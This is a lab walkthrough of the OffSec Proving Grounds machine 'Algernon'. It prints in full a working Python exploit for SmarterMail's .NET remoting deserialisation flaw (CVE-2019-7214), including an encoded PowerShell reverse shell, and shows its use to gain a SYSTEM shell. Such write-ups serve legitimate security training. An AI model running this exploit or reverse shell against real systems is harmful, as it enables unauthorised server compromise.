

# Algernon

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Fundamental
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 10
Number of Flags: 1
Lab Description:
This lab demonstrates exploiting a remote code execution vulnerability in SmarterMail build 6985 to gain 
SYSTEM-level access on a Windows server. Learners will identify the application version, leverage an RCE 
exploit, and use a reverse shell payload to compromise the target. This lab emphasizes web application 
exploitation and highlights the risks of unpatched software.
Released: 3 Aug 2020
```

Machine link: [https://portal.offsec.com/machine/algernon-239/overview/details](https://portal.offsec.com/machine/algernon-239/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ export TARGET_IP=192.168.118.65 

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ sudo nmap -sV -sC -p- $TARGET_IP 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 15:13 CEST
Nmap scan report for 192.168.118.65
Host is up (0.034s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 09-29-25  06:08AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_09-29-25  06:08AM       <DIR>          Spool
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
9998/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
|_http-server-header: Microsoft-IIS/10.0
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Mon, 29 Sep 2025 13:17:07 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
17001/tcp open  remoting      MS .NET Remoting services
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-29T13:17:16
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 235.46 seconds
```

We have seven main services running and available:

- Microsoft ftpd running on port 21
- Microsoft IIS httpd 10.0 running on port 80
- Microsoft Windows RPC running on port 135
- NetBIOS Session Service running on port 139
- SMB running on port 445
- Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) running on port 9998
- MS .NET Remoting services running on port 17001

We also see that we have anonymous access via FTP.

### Check out the FTP site

We check out the FTP-server first

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ ftp -a $TARGET_IP
Connected to 192.168.118.65.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49936|)
150 Opening ASCII mode data connection.
04-29-20  10:31PM       <DIR>          ImapRetrieval
09-29-25  06:08AM       <DIR>          Logs
04-29-20  10:31PM       <DIR>          PopRetrieval
09-29-25  06:08AM       <DIR>          Spool
226 Transfer complete.
ftp> cd ImapRetrieval
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49940|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> cd ..
250 CWD command successful.
ftp> cd Logs
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49943|)
150 Opening ASCII mode data connection.
09-29-25  06:08AM                   46 2025.01.29-activation.log
09-29-25  06:08AM                  217 2025.01.29-delivery.log
226 Transfer complete.
ftp> mget *.log
mget 2025.01.29-activation.log [anpqy?]? y
229 Entering Extended Passive Mode (|||49946|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************************************************************|    46        1.30 KiB/s    00:00 ETA
226 Transfer complete.
46 bytes received in 00:00 (1.22 KiB/s)
mget 2025.01.29-delivery.log [anpqy?]? y
229 Entering Extended Passive Mode (|||49947|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************************************************************|   217        1.81 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (143.47 KiB/s)
ftp> cd ..
250 CWD command successful.
ftp> cd PopRetrieval
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49950|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> cd ..
250 CWD command successful.
ftp> cd Spool
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49953|)
125 Data connection already open; Transfer starting.
04-29-20  10:32PM       <DIR>          Drop
09-29-25  06:08AM       <DIR>          SubSpool0
09-29-25  06:08AM       <DIR>          SubSpool1
09-29-25  06:08AM       <DIR>          SubSpool2
09-29-25  06:08AM       <DIR>          SubSpool3
09-29-25  06:08AM       <DIR>          SubSpool4
09-29-25  06:08AM       <DIR>          SubSpool5
09-29-25  06:08AM       <DIR>          SubSpool6
09-29-25  06:08AM       <DIR>          SubSpool7
09-29-25  06:08AM       <DIR>          SubSpool8
09-29-25  06:08AM       <DIR>          SubSpool9
226 Transfer complete.
ftp> cd Drop
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49956|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> put 2025.01.29-activation.log
local: 2025.01.29-activation.log remote: 2025.01.29-activation.log
229 Entering Extended Passive Mode (|||49959|)
550 Access is denied. 
ftp> close
221 Goodbye.
ftp> quit
```

We downloaded two log files and were unable to write files in the `Drop` directory.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ cat 2025.01.29-activation.log 
06:08:30.956 Daily activation check started.

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ cat 2025.01.29-delivery.log 
23:49:20.003 Delivery server started at 1/29/2025 11:49:20 PM
23:49:20.018 Updating ClamAV database...
23:49:42.924 Updating the ClamAV database has completed successfully
06:08:24.612 Updating ClamAV database...
```

Nothing much exciting.

Let's continue to checking out the web sites.

### Check the web sites

Browsing to port 80 shows a default Internet Information Services page.

Checking port 9998 redirects us to `http://192.168.118.65:9998/interface/root#/login` and shows a SmarterMail login-page



Checking the HTML-source code shows this comment  
`<!-- SmarterMail Copyright (c) 2003-2025 SmarterTools Inc.  All Rights Reserved. -->`  

### Check for exploits

Next, we check if there are any known exploits available

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ searchsploit smartermail 
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
SmarterMail 16 - Arbitrary File Upload                                                                                                                | multiple/webapps/48580.py
SmarterMail 7.1.3876 - Directory Traversal                                                                                                            | windows/remote/15048.txt
SmarterMail 7.3/7.4 - Multiple Vulnerabilities                                                                                                        | asp/webapps/16955.txt
SmarterMail 8.0 - Multiple Cross-Site Scripting Vulnerabilities                                                                                       | asp/webapps/16975.txt
SmarterMail < 7.2.3925 - LDAP Injection                                                                                                               | asp/webapps/15189.txt
SmarterMail < 7.2.3925 - Persistent Cross-Site Scripting                                                                                              | asp/webapps/15185.txt
SmarterMail Build 6985 - Remote Code Execution                                                                                                        | windows/remote/49216.py
SmarterMail Enterprise and Standard 11.x - Persistent Cross-Site Scripting                                                                            | asp/webapps/31017.php
smartermail free 9.2 - Persistent Cross-Site Scripting                                                                                                | windows/webapps/20362.py
SmarterTools SmarterMail 4.3 - 'Subject' HTML Injection                                                                                               | php/webapps/31240.txt
SmarterTools SmarterMail 5.0 - HTTP Request Handling Denial of Service                                                                                | windows/dos/31607.py
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The RCE looks promising

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ searchsploit -m 49216   
  Exploit: SmarterMail Build 6985 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49216
     Path: /usr/share/exploitdb/exploits/windows/remote/49216.py
    Codes: CVE-2019-7214
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (4852)
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Algernon/49216.py


┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ cat 49216.py                 
# Exploit Title: SmarterMail Build 6985 - Remote Code Execution
# Exploit Author: 1F98D
# Original Author: Soroush Dalili
# Date: 10 May 2020
# Vendor Hompage: re
# CVE: CVE-2019-7214
# Tested on: Windows 10 x64
# References:
# https://www.nccgroup.trust/uk/our-research/technical-advisory-multiple-vulnerabilities-in-smartermail/
#
# SmarterMail before build 6985 provides a .NET remoting endpoint
# which is vulnerable to a .NET deserialisation attack.
#
#!/usr/bin/python3

import base64
import socket
import sys
from struct import pack

HOST='192.168.1.1'
PORT=17001
LHOST='192.168.1.2'
LPORT=4444

psh_shell = '$client = New-Object System.Net.Sockets.TCPClient("'+LHOST+'",'+str(LPORT)+');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
psh_shell = psh_shell.encode('utf-16')[2:] # remove BOM
psh_shell = base64.b64encode(psh_shell)
psh_shell = psh_shell.ljust(1360, b' ')

payload = 'AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAPIKL2MgcG93ZXJzaGVsbC5leGUgLWVuY29kZWRDb21tYW5kIFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFgGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw=='
payload = base64.b64decode(payload)
payload = payload.replace(bytes("X"*1360, 'utf-8'), psh_shell)

uri = bytes('tcp://{}:{}/Servers'.format(HOST, str(PORT)), 'utf-8')

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST,PORT))

msg = bytes()
msg += b'.NET'                 # Header
msg += b'\x01'                 # Version Major
msg += b'\x00'                 # Version Minor
msg += b'\x00\x00'             # Operation Type
msg += b'\x00\x00'             # Content Distribution
msg += pack('I', len(payload)) # Data Length
msg += b'\x04\x00'             # URI Header
msg += b'\x01'                 # Data Type
msg += b'\x01'                 # Encoding - UTF8
msg += pack('I', len(uri))     # URI Length
msg += uri                     # URI
msg += b'\x00\x00'             # Terminating Header
msg += payload                 # Data

s.send(msg)
s.close()      
```

It looks like it give us a PowerShell reverse shell.

### Get a reverse shell

We start a netcat listener on port 443

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ nc -lvnp 443
listening on [any] 443 ...

```

Before launching the exploit we update the IP and port info

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$  vi 49216.py 

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ head -n 25 49216.py
# Exploit Title: SmarterMail Build 6985 - Remote Code Execution
# Exploit Author: 1F98D
# Original Author: Soroush Dalili
# Date: 10 May 2020
# Vendor Hompage: re
# CVE: CVE-2019-7214
# Tested on: Windows 10 x64
# References:
# https://www.nccgroup.trust/uk/our-research/technical-advisory-multiple-vulnerabilities-in-smartermail/
#
# SmarterMail before build 6985 provides a .NET remoting endpoint
# which is vulnerable to a .NET deserialisation attack.
#
#!/usr/bin/python3

import base64
import socket
import sys
from struct import pack

HOST='192.168.118.65'
PORT=17001
LHOST='192.168.45.167'
LPORT=443
```

Note that the target port stays as 17001, rather than 9998.

Now we can launch the exploit

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ python 49216.py    
```

Checking back to the netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Algernon]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.118.65] 50061
whoami
nt authority\system
PS C:\Windows\system32> 
```

We are running as SYSTEM.

### Get the root flag

Finally, we get the only flag on the machine

```powershell
PS C:\Windows\system32> cd C:\Users\Administrator\Desktop       
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----        9/29/2025   6:08 AM             34 proof.txt                                                             


PS C:\Users\Administrator\Desktop> type proof.txt
1<REDACTED>2
PS C:\Users\Administrator\Desktop> 
```

For additional information, please see the references below.

## References

- [Internet Information Services - Wikipedia](https://en.wikipedia.org/wiki/Internet_Information_Services)
- [List of Microsoft Windows versions - Wikipedia](https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [PowerShell - Wikipedia](https://en.wikipedia.org/wiki/PowerShell)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
